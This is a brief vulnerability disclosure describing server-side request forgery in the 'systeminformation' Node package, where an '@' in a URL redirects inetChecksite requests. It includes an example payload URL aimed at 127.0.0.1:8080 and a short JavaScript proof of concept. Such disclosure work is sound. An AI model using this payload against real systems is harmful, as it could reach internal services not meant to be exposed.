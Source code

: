 # Description

`systeminformation` package is vulnerable to `Server-side request forgery`. It allows attackers to abuse of `@` to make requests to a different domain or possibility to applications that are not publicly exposed through `http://effectrenan.com@127.0.0.1:8080`.

# Proof of Concept

```javascript
const si = require('systeminformation');
si.inetChecksite("https://effectrenan.com@google.com").then(a => { console.log(a) });
```
